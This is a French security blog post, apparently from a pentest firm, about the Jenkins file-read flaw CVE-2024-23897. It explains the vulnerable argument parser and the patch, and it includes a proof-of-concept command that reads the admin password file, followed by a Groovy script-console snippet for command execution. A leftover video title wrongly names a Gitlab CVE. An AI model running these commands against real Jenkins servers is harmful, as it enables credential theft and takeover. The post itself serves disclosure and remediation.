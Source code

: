 ```yaml
---
title: "Compromettre Jenkins via une simple lecture de fichiers : CVE-2024-23897"
description: "Cette article détaille comment avec une simple vulnérabilité décelée fin janvier 2024, un attaquant serait en mesure de compromettre des instances Jenkins."
date: 2024-02-01T11:47:21+01:00
draft: false
images: [/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png]
featuredImage: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
featuredImagePreview: "/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/logo.png"
tags: ["Test d'intrusion", "Pentest", "Audit"]
---
```


# 💣 D'une petite erreur verbeuse à une compromission complète

## A l'origine

Le **25 janvier 2024**, des chercheurs de chez Sonar publient 2 vulnérabilités concernant le leader des logiciels d'intégration et de déploiement continus open-source (CI/CD) : **Jenkins**.

Jenkins joue un rôle central dans **l'automatisation des processus** de développement logiciel pour une grande partie de l'industrie, avec une part de marché d'environ **44% en 2023**. L'impact potentiel de ces vulnérabilités est donc **considérable**.

La faille la plus préoccupante, identifiée sous le nom de **CVE-2024-23897**, permet à des attaquants non authentifiés de lire des données limitées de fichiers arbitraires et à des attaquants autorisés "en lecture seule" d'accéder à l'intégralité d'un fichier sur le serveur Jenkins.

Deux vulnérabilités sont expliquées :

- La vulnérabilité **CVE-2024-23897** :
    - Un score CVSS de **9.8/10** (assez préoccupant) 😮
    - Un attaquant anonyme est en mesure de lire une partie limitée de fichiers locaux.
- La vulnérabilité **CVE-2024-23898** :
    - Un score CVSS de 8.8/10
    - Permet à un attaquant d'exécuter des commandes CLI arbitraires en incitant une victime à cliquer sur un lien malveillant (CSRF).

## En bref

La vulnérabilité la plus problématique est la première : **CVE-2024-23897**

- Les attaquants non authentifiés peuvent lire **les premières lignes de fichiers locaux** présents sur le serveur.
- Les attaquants authentifiés en lecture seule peuvent accéder à l'intégralité des fichiers.
- Il est possible de transformer cette vulnérabilité en RCE de plusieurs manières :
    - En lisant contenant le mot de passe par défaut
    - En elevant ses privilèges en tant qu'admin
    - En lisant une clef SSH
    - En récupérant des secrets sur la machine
    - Etc...

Jenkins donne d'autres moyens pour obtenir une execution de commande directement sur son blog : https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Pour exploiter la première vulnérabilité, le PoC est assez facile. 

### Docker vulnérable

Il est possible de tester avec des versions vulnérables via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environnement

Il faut commencer par récupérer l'utilitaire de Jenkins `jenkins-cli.jar` en ligne de commande.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```

![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Code vulnérable

Le code ci-dessous détaille le code vulnérable.

La fonction vérifie si l'argument commence par le caractère `@`, et si c'est le cas, lit le fichier dans le chemin après le `@` et créée un nouvel argument pour chaque ligne.


```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

Cela signifie que si un attaquant peut contrôler un argument, il peut l'étendre à un certain nombre d'arguments à partir d'un fichier arbitraire sur l'instance Jenkins.

De ce fait, l'exploitation de la fonction `expandAtFiles()` de `arg4j` affichant une erreur verbeuse lors de la tentative de lecture du fichier est possible.

### Lecture arbitraire...

La commande ci-dessous permet à un utilisateur **non authentifié** de récupérer la première ligne du fichier `/var/jenkins_home/secrets/initialAdminPassword`

```sh
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![Lecture de fichiers arbitraires](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)

### ...vers RCE

Il est donc possible de récupérer le mot de passe par défaut de l'administrateur si ce dernier n'a pas été changé.

![Capture du mot de passe administrateur](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)


Il est ensuite possible de se connecter sur `/script` pour exécuter nos commandes. 

![Execution de commande](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)

Le code ci-dessous permet d'exécuter la commande `/bin/id`.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Pour terminer, une démonstration est disponible juste en dessous !

## Actions recommandées

L'équipe de sécurité de Jenkins a corrigé la CVE-2024-23897 en ajoutant une configuration sécurisée désactivant la fonctionnalité `expandAtFiles`.

La ligne suivante est retirée :

```java
    return new CmdLineParser(this);
```

Et remplacé par les lignes suivantes :

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

La deuxième vulnérabilité `CVE-2024-23898`, conséquente direct de la première, a été corrigé en ajoutant une vérification de l'origine sur le mécanisme de WebSocket.

Patchez rapidement

## Démonstration

Démonstration avec les éléments détaillés ci-dessus.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploitation de Gitlab avec la vulnérabilité CVE-2023-7028" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
